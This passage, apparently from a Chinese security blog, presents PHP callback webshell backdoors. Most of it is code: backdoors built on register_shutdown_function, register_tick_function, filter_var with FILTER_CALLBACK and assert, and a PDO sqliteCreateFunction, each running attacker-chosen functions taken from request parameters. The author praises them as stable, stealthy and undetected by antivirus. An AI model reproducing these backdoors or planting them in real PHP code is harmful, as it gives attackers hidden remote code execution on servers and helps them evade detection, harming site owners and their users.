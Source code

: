 但如果执行一个url请求，用神器cloudeye还是能够观测到结果的：

![enter image description here](http://drops.javaweb.org/uploads/images/166b849a0af458e1ecaa3b44aadb3a581f78af96.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/f75763add4d8f7ff2b3485e0f6b6da24e0cfe5a7.jpg)

即使没输出，实际代码是执行了的。也算作回调后门的一种。

0x06 单参数后门终极奥义
==============

* * *

preg_replace、三参数后门虽然好用，但/e模式php5.5以后就废弃了，不知道哪天就会给删了。所以我觉得还是单参数后门，在各个版本都比较好驾驭。 这里给出几个好用不杀的回调后门

```
$e = $_REQUEST['e'];
register_shutdown_function($e, $_REQUEST['pass']);

```

这个是php全版本支持的，且不报不杀稳定执行：

![enter image description here](http://drops.javaweb.org/uploads/images/01b7889a0911ae477d6ef4194704ec9bbd596b64.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/fd14108286273257e265de4d26785c49d1e67446.jpg)

再来一个：

```
$e = $_REQUEST['e'];
declare(ticks=1);
register_tick_function ($e, $_REQUEST['pass']);

```

再来两个：

```
filter_var($_REQUEST['pass'], FILTER_CALLBACK, array('options' => 'assert'));

```

这两个是filter_var的利用，php里用这个函数来过滤数组，只要指定过滤方法为回调（FILTER_CALLBACK），且option为assert即可。

这几个单参数回调后门非常隐蔽，基本没特征，用起来很6.

0x07 数据库操作与第三方库中的回调后门
=====================

* * *

回到最早微博上发出来的那个sqlite回调后门，其实sqlite可以构造的回调后门不止上述一个。

我们可以注册一个sqlite函数，使之与assert功能相同。当执行这个sql语句的时候，就等于执行了assert。所以这个后门我这样构造：

```
$e = $_REQUEST['e'];
$db = new PDO('sqlite:sqlite.db3');
$db->sqliteCreateFunction('myfunc', $e, 1);
$sth = $db->prepare("SELECT myfunc(:exec)");
$sth->execute(array(':exec' => $_REQUEST['pass']));

```
